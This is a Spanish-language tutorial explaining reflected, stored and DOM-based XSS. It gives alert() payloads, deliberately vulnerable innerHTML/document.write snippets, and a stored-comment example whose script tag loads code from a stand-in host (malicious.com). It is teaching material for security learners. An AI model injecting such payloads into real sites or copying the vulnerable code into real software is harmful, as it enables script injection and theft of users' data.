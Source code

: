 ## XSS

- Una vulnerabilidad XSS (Cross-Site Scripting) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento.

- Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

- En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo:

### XSS Reflejado:
Este tipo de XSS se produce cuando los datos proporcionados por el usuario se reflejan en la respuesta HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.

#### Ejemplo básico:

1. URL vulnerable: `http://example.com/search?q=palabra`
2. Payload: `http://example.com/search?q=<script>alert('XSS')</script>`
3. Resultado: El script se ejecuta en el navegador del usuario.



### XSS Almacenado:
Este tipo de XSS se produce cuando un atacante es capaz de almacenar código malicioso en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.

#### Ejemplo básico:

1. Formulario de comentarios vulnerable.
2. Payload: `<script>alert('XSS Almacenado')</script>`.
3. Resultado: Cada vez que alguien visualiza el comentario, el script se ejecuta.

#### Ejemplo de XSS Almacenado:

```html
<p>¡Recomiendo mucho este producto!</p>
<script src="http://malicious.com/exploit.js"> </script>
```

En este caso, el script malicioso se almacena en la sección de comentarios de un sitio web de comercio electrónico y se ejecutará cada vez que un usuario vea la página.


### XSS Basado en DOM:
Este tipo de XSS se produce cuando el código malicioso se ejecuta en el navegador del usuario a través del DOM (Modelo de Objetos del Documento). Esto ocurre cuando el código JavaScript en una página web modifica el DOM de una manera vulnerable a la inyección de código malicioso.

#### Ejemplo básico:

1. Código vulnerable:

```javascript
var userInput = location.hash.substring(1);
document.getElementById('output').innerHTML = userInput;
```

2. URL: `http://example.com/#<script>alert('XSS DOM')</script>`
3. Resultado: El script se ejecuta al cargar la página.

#### Ejemplo de XSS Basado en DOM:

```javascript
var name = document.location.hash.substr(1);
document.write("Hola, " + name);
```

Si la URL termina con `#<script>alert('XSS')</script>`, el script se ejecutará.


### Laboratorio de Práctica:

Para practicar estas vulnerabilidades, el laboratorio utilizando el siguiente proyecto de GitHub: [OWASP Juice Shop](https://github.com/juice-shop/juice-shop).